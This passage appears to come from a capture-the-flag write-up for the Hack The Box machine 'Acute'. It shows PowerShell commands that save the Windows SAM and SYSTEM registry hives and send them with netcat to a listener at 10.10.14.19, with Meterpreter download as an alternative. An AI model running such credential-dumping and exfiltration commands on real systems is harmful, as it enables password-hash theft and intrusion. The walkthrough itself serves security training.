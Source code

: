 ```shell
-a----        08/02/2022     02:30       13107200 SYSTEM
```

> The Security Account Manager (SAM) is a database that is present on computers running Windows operating systems that stores user accounts and security descriptors for users on the local computer. (From [https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/audit-sam](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/audit-sam))

- Make a copy of `SAM` and `SYSTEM` file:

```shell
PS C:\Users\jmorgan\Documents> reg save HKLM\SAM C:\Utils\SAM.bak
The operation completed successfully.
PS C:\Users\jmorgan\Documents> reg save HKLM\SYSTEM C:\Utils\SYSTEM.bak
The operation completed successfully.
```

> Note: If you don't make a copy of them, you can't access those files, because they're being used by another process.

- Transfer the backed up SAM and SYSTEM file **via the uploaded netcat executable** to our attacker machine:

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|16:45:54(HKT)]
└> nc -lnvp 9999 > SAM                                                                            
listening on [any] 9999 ...
```

```shell
PS C:\Users\jmorgan\Documents> cat C:\Utils\SAM.bak | C:\Utils\nc.exe -w 10 10.10.14.19 9999
```

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|16:51:33(HKT)]
└> nc -lnvp 9999 > SYSTEM
listening on [any] 9999 ...
```

```shell
PS C:\Users\jmorgan\Documents> cat C:\Utils\SYSTEM.bak | C:\Utils\nc.exe -w 60 10.10.14.19 9999
```

> Note: The timeout is set to 60 seconds is because the `SYSTEM` file is kinda big (11.58 MB).

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Acute)-[2023.08.15|16:51:57(HKT)]
└> file SAM && file SYSTEM
SAM: MS Windows registry file, NT/2000 or above
SYSTEM: MS Windows registry file, NT/2000 or above
```

**Or you can transfer them via Meterpreter's `download` command:**
```shell
meterpreter > download C:\\Utils\\SAM.bak
[...]
[*] Downloaded 56.00 KiB of 56.00 KiB (100.0%): C:\Utils\SAM.bak -> /home/siunam/ctf/htb/Machines/Acute/SAM.bak
[*] Completed  : C:\Utils\SAM.bak -> /home/siunam/ctf/htb/Machines/Acute/SAM.bak
meterpreter > download C:\\Utils\\SYSTEM.bak
[...]
[*] Downloaded 11.58 MiB of 11.58 MiB (100.0%): C:\Utils\SYSTEM.bak -> /home/siunam/ctf/htb/Machines/Acute/SYSTEM.bak
[*] Completed  : C:\Utils\SYSTEM.bak -> /home/siunam/ctf/htb/Machines/Acute/SYSTEM.bak
```
